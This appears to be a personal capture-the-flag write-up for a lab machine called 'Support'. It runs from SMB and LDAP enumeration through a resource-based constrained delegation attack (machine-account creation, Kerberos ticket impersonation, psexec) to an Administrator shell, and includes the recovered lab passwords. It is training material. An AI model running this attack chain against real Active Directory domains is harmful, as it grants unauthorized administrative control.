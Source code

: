 **Ping**
![[Pasted image 20240718210107.png]]

**Nmap Scans**

Nmap Default Scan
![[Pasted image 20240718210155.png]]

Nmap Script and Service Scan
![[Pasted image 20240718210234.png]]

Nmap All Port Scan
![[Pasted image 20240718212801.png]]

DNS Info
```
dig axfr @10.10.11.174 support.htb any
```
![[Pasted image 20240718212738.png]]
added in my hosts file 

Can see SMB Shares
```
smbclient -U '' -L \\\\10.10.11.174\\\\
```
![[Pasted image 20240718210418.png]]

Share support-tools
```
smbclient -N //10.10.11.174/support-tools
```
![[Pasted image 20240718210523.png]]

Downloaded all files to my kali
```
recurse ON
prompt off
mget *
```
![[Pasted image 20240718210927.png]]

Decompiled the userinfo.exe file and found a encrypted password, the decrypted it and did ldap search
```
ldapsearch -x -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb' | tee ldapsearch.log
```

Found support's password
![[Pasted image 20240718213409.png]]

Will use Evil-winrm to get a session as support
```
evil-winrm -u support -p Ironside47pleasure40Watchful -i support.htb
```
![[Pasted image 20240718213808.png]]

I can Add machines 
![[Pasted image 20240718215038.png]]

Will add computer
```
impacket-addcomputer support.htb/support -dc-ip 10.10.11.174 -computer-name 'pwned$' -computer-pass 'pwned'
```
![[Pasted image 20240718215111.png]]

Set delegation rights to new computer
```
impacket-rbcd -action write -delegate-from pwned$ -delegate-to dc$ -dc-ip 10.10.11.174 "support.htb/support:Ironside47pleasure40Watchful"
```
![[Pasted image 20240718215208.png]]

TGT ticket to impersonate DC Admin 
```
impacket-getST -spn cifs/dc.support.htb support/pwned\$:'pwned' -impersonate Administrator -dc-ip 10.10.11.174 
```
![[Pasted image 20240718215257.png]]

Will export the ticket to local
```
export KRB5CCNAME=./Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```
![[Pasted image 20240718215347.png]]

Get a shell as NT/Authority
```
impacket-psexec -k -no-pass dc.support.htb -dc-ip 10.10.11.174
```
![[Pasted image 20240718215522.png]]

**User.txt**
![[Pasted image 20240718215724.png]]

**Root.txt**
![[Pasted image 20240718215809.png]]


Done with Support.....:)

